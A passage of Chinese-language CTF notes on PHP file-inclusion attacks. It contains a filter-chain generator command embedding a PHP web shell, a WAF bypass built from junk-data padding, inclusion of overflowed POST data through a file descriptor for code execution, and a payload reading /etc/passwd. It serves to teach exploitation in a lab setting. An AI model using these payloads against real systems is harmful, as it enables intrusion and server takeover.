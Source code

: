 ```go
echo $final_payload;
```

可以用这俩个工具来自动化

[https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

[https://github.com/WAY29/php_filter_chain_generator](https://github.com/WAY29/php_filter_chain_generator)

```python
python3 php_filter_chain_generator.py --chain '<?php @system($_POST[x]); ?>  //'
```

# 文件包含溢出的POST数据RCE

参考例题2022鹏城杯简单包含

进去题目触发一个waf。尝试pear和nginx缓存都不行。fuzz一下能包含的文件。

利用大量脏数据绕过waf软件

![](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/1681197498557-b48159d6-7a67-43e2-ba0c-4e628fdb3046.png#id=lTBiL&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

直接读flag文件还是读不了。

fuzz一下包含的文件描述符号。发现4号文件描述符指向溢出的post数据。直接包含任意的php代码执行。

![](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/1681197513515-b69c327c-b419-401f-8d19-9b725e4b218f.png#id=WKqe8&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

![](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/1681197523664-5748eb2d-cf50-4773-8e2f-cc3dca1e2119.png#id=JGX8x&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

进去题目触发一个waf。尝试pear和nginx缓存都不行。fuzz一下能包含的文件。

利用大量脏数据绕过waf flag=xxx(一堆)&flag=/etc/passwd
